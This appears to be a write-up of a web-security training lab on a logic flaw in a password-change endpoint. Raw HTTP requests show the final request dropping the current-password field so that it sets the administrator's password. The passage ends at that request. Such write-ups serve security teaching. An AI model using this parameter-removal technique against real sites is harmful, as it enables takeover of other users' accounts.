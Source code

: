 **Objective**: Exploit the logic flaw to gain an `administrator` account and delete the user carlos.

**Given Credentials**: `wiener:peter`

This lab contains a blogging website that has some blogs. There is also a `My account` endpoint where we can see our current account information if we are `login` if not then they redirect us to the `/login` endpoint in which we can login by giving a `username` and `password` combination. If any of these are incorrect they give us an error message saying `Invalid username or password.`

When we successfully login they redirect us back to the `/my-account` endpoint where we have information about our current `username` and we have some functionality to Update our `Email address`, `Username`, and current `Password`.

The Update `Email Request` is like the following.

```
POST /my-account/change-email HTTP/2
Host: 0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Cookie: session=Q59XR716BAzndFSKs4ZCBG2YlM1m0JCj
Content-Length: 55
Origin: https://0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36

email=test%40test&csrf=jEV9rLFT2Whe6Gdv5xysswtviT67aIif
```

There they send an `email` parameter with our `email address` value and they also have a `csrf` token they must be correct otherwise they show us an error message saying `Invalid CSRF token`. When we successfully update our email we can see that email reflected back to us in our `/my-account` dashboard.

The Update `Password Request` is like the following.

```
POST /my-account/change-password HTTP/2
Host: 0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Cookie: session=Q59XR716BAzndFSKs4ZCBG2YlM1m0JCj
Content-Length: 118
Origin: https://0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36

csrf=jEV9rLFT2Whe6Gdv5xysswtviT67aIif&username=wiener&current-password=peter&new-password-1=peter&new-password-2=peter
```

There they send a `crsf` token that must be correct, the `username` parameter, `current-password` parameter, `new-password-1`, and `new-password-2` parameter. If we change the username parameter value to some arbitrary username value i.e. `administrator` they show an error message saying `current password is incorrect`. 

**Request**
```
POST /my-account/change-password HTTP/2
Host: 0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Cookie: session=Q59XR716BAzndFSKs4ZCBG2YlM1m0JCj
Content-Length: 102
Origin: https://0a4f00f7031e4eec80ca3aa800cc0009.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36

csrf=jEV9rLFT2Whe6Gdv5xysswtviT67aIif&username=administrator&new-password-1=peter&new-password-2=peter
```

